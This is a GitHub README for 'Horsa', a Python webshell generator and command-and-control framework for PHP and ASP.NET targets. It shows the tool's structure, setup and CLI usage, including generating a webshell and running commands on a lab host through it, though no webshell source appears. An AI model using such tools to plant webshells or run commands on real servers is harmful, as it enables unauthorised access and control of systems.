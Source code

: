 
```
-@@@@@@@@@@@%@@@@%#*+==---=-------=--=====================-==========--==-==--====================-=
-@%@@@@@@@@@@@%%%%===-----------+-----:::::::::----++------:::--:::::-+*++=+=*+-==:::::::::::::::::=
-@@@@@@@@@@@@%@@@@@@@+------=-:-::::::::::::::::-+=--:-:----:-:::-::::=##******=+::::::::::::::::::-
=@@@@%@@@@@%%@@@@@@@@@@@:::::-::::::::::::::::::--=-:-:-:-=--:::-+---::+#*#*#*##+::::::::::::::::::-
-**#%@@@@%%#*=@@@@@@@@@@@@--===--------:::::::::::::::::---::::::=::::::-+*#%%%==*:::::::::::::::::-
=*+++%@%@+***++@@@@@@@@@@@@@+++===-------::::::::::::::::::::::::::::-::+*#%%%%#=-:::::::::-:::::::=
-*++***+==+**#*++@@@@@@@@@@@@@%+===------::::::::::::::::::::::::::::---:*+##%**++:::::-=:-:-:::-::-
=###***+++*##*+***#@@@@@@@@@@@@@@==--------::::::::::::::::::::::::::::+=*###%%%%%*+-:=--::-=::::::-
=%%%%%%######***###*@@@@@@@@%@@@@@@--------:::::::::::::::::::::::::::::=****+*#**+*+===-::-:-----=-
=@@%#%%%%%%####***+**+@@@@@@@@@@@@@@@=----:::::::::::::::::::::::::::::-+*+=+++++++++===---:-::-----
=%%%%##%#%#####*******+@@@@@@@@@@@@@@@@%-::::::::::::::::::::::::::::::-+++===*+=+*++**+=--:::::::--
=%%###*###***##**++++++==@@@@@@@@@%@@@@@@@:::::::::::::::::::::::::::::::---+==-----=---::::::::::--
=####*********+++++=======-@@@@@@@@@@@@@@@@@::::::::::::::::::::::::::::::-::+-====-=::::::---:::::-
=####*******++++=========---@@@@@@@@@@@@@@@@@@=:::::::::::::::::::::::::::::::::--+--:---:::---::::-
=#####*****++===---=---------:@@@@@@@@@@@@@@@@@@=:::::::::::::::::::::::::::::::::::--::---:--::-::-
=#########**+=+=---=----:::::::@@@@@@@@@@@@@@@@@@@:::::::::::::::::-:=*::::::::::::::::::-==-::::::-
=##########*++*+++++=---:--::--:@@@@@@@@@@@@@@@@@@@=-::::::::#@@@@@@@@@@@:::::::::::::-:---::::::::-
=*##+#%####@@@@@@*###*=+++=-------@@@@@@@@@@@@@@@@@@@=@@@@@@@@@@@@@@@@@@@@::::::::::-:-------::::::-
=*##########%@@@@@@+**+@%++=--:::::-@@@@@@@@@@@@@@@@@@@@@@@@%%@@@@@@@@@@@@@:::::::::===+==-:::-::::-
=#**##########*@@@@@@@@@@+=-::::::::-#@@@@@@@@@@@@@%%%@@@@@@@@@@@@@@@@@@:::::::::::--**++*+-:::::::-
=*****######*##**@@@@@@%@---::::*@@@@@@@@@@@%%%%%%%%%%%@@@@@@@@@@++@::::::::::::::::-+*####*=--::::-
=****#####********+@@@@@@#%@@@@@##@@#@@@@@@@@%%%%%%@@@@@@@@:::::::#:::::::::-::::----++**##*+---:::-
=++***#******+=---@@@@@@@@@@@@##%##%%@@@@@@@@@@@@@@@@@@@@@@@:::::::::::::::-=:-:==----=-=*#***---::-
==+********+++--:@@@@@@@%%%@@@@@@%%%%%@#:::::@@@@@@@@@@@@@@@@:::::::::::::::----+++------=+****+===-
==++******+++---:-::-:::::@@@@@@:::::::::::::::@@@@@@@@@@@@@@*::::::::::::::::=+++-==----:-=++**+==-
==+++*++++==+=--------------:==-::::::::::::::::#@@@@@@@@@@@@@::::::--:::::-::---=--===----:-==+++=-
=-=++=+**+++=-=-=------------::::::::::::::::::::::@@%@@@@@@@@@:::::::::::::::::------=+=-::::--==--
=-==+++++++==========-=----::::-:::::::::::::----:::::#@@@@@%@@@:--:::::::::::::::---------::::::::-
=-===++++++=++++=======--=--------::::::::::--=-::::::::+%@@%%@@#:::--:::::::::::::::------::::::::-
=---====++++++++++=--=====--=------:::::::::::--:::::::::::%@@@@@:::---:::::::-:::::::-----::-:::::-
=-----===++++++*++++=====--=-==----:::::-:::--:::::-:::::::::::::::::::---:::::::::::-------:::::::-
=---------=+++++++++++=====--------------:::::::::::::::::::::::::::::::::::--:--:------:---:::::::-
=-----------================--=--=------:-:::::::::::::::::::::::::::::::::----------::::::-:::::::-
=--------:-------------==-==------==--::::::::::::::::::::::::::::::::::::::::-:------:::::::::::::-
=-------:::::-----------------------=---:::::::::::::::::::::::::::::::::::::::::----:-:::::::---::-
=---------::::::::------------------------:::::::::::::::::::::::::::::::::::::::::-::::::::-::-----
=----------:::::::------:--:--:---::---------::::::::::::::::::::::::::::::::::::::::::::::::::-----
=:------:-------:::-:::::::::::-::::::-------::::::::::::::::::::::::::::::::::::::::::::::::::::::-
=::-------------:::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::-:--:--
==============================================--=-=----------------:::::::::::::::::::::::::-:-:-=--
```
![Python](https://img.shields.io/badge/python-3.11-blue.svg)
![Version](https://img.shields.io/badge/release-1.0-yellow.svg)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](https://opensource.org/licenses/MIT)

The Airspeed Horsa was a British military glider used during World War II. It was designed by the British manufacturer Airspeed Limited in response to a requirement from the British military for a large transport glider that could carry troops in support of airborne operations.

Despite being a large and cumbersome aircraft, was well-liked by the troops who used it, especially during the Normandy landings in June 1944, where it played a crucial role.

## [+] Overview

Horsa is a **webshell framework and command-control (C2)** made in Python. The project is built around two core functions. Alternatively, the Python's wrapper can generate webshells in ASP.NET or PHP on fly or interact with agents deployed on targets.

The content of the HTTP(S) communications between the wraper and a deployed webshell is #XOR encrypted and base64-encoded. 

>[!WARNING]
>Note the user-agent (UA) and the XOR key can be configured through the custom command-line interface (CLI). 

The Horsa webshell's have **working but limited capabilities**, such as:
- **command execution** through dangerous native functions (PHP) or cmd.exe built-in binary (ASPX)
- **file upload**
- *few PHP functions and download capabilities may be added in the future (maybe not)*

The PHP template used to generate new agent is **lightly obfuscated**. The ASP.NET may soon benefit from a similar treatment.

The whole project is **object oriented** and structured as follow:
- `main.py`: Python's wrapper entry point
- `core/session.py`: this class is related to the core functionalities of Horsa (generate, interact)
- `core/handler.py`: the handler class builds commands that can be interpreted by Horsa's agents
- `core/request.py`: this class handles the communication between the wrapper and the agents
- `core/config.py`: contains parameters configurable to customize the project
- `output/`: generated webshells are written here
- `implant/`: webshell templates can be found here (ASP.NET and PHP)

## [+] Recommended setup

After`git clone` the project, you should a create a clean Python's virtual environment and install the requirements using `pip` tool:
```bash
cd horsa
python -m virtualenv horsa-venv
source horsa-venv/bin/activate/
pip3 install -r requirements
```
## [+] Usage

The Python wrapper is user-friendly. To generate an ASP.NET or a PHP webshell, use the following command:

```shell
# proxychains -q rlwrap python3 main.py --generate --key mypassword --lang aspx --url http://10.0.4.195/test.aspx

██   ██  ██████  ██████  ███████  █████  
██   ██ ██    ██ ██   ██ ██      ██   ██ 
███████ ██    ██ ██████  ███████ ███████ 
██   ██ ██    ██ ██   ██      ██ ██   ██ 
██   ██  ██████  ██   ██ ███████ ██   ██ 
+ php/aspx webshell command & control +

[*] Initializing Horsa
[*] Generating an Horsa webshell
+ filename: test.aspx
+ language: aspx
+ auth-key: mypassword
[+] Horsa webshell in aspx available at output/test.aspx
[+] You may deploy this webshell then run Horsa on --interact mode
[+] Exiting now!
```

Remember, you can get help to use the CLI by typing the following command in a shell:

```bash
python3 main.py --help
```

To interact with a deployed agents, use the following commands:

```bash
# proxychains -q rlwrap python3 main.py --interact --key mypassword --lang aspx --url http://10.0.4.195/test.aspx

██   ██  ██████  ██████  ███████  █████  
██   ██ ██    ██ ██   ██ ██      ██   ██ 
███████ ██    ██ ██████  ███████ ███████ 
██   ██ ██    ██ ██   ██      ██ ██   ██ 
██   ██  ██████  ██   ██ ███████ ██   ██ 
+ php/aspx webshell command & control +

[*] Initializing Horsa
[+] Horsa webshell found on target
[*] Use :help to list built-in commands
+ target: http://10.0.4.195/test.aspx
+ user-agent: hora-ws
+ language: aspx
+ auth-key: mypassword
DefaultAppPool@TESTAPP1: C:/inetpub/wwwroot/]$ :shell whoami
iis apppool\defaultapppool
```

## [+] Credits
A special thanks goes to :
- **[weevely3](https://github.com/epinna/weevely3)** is the mother-of-all the webshell framework projects. You know what I mean, and if you not, just try this piece of masterwork.
- **[SharPyShell](https://github.com/antonioCoco/SharPyShell)** was vital to better understand how to use ASP.NET to get a working .aspx agent. His project is far more achieved than I could ever imagined regarding Horsa. Kudo to @antonioCoco

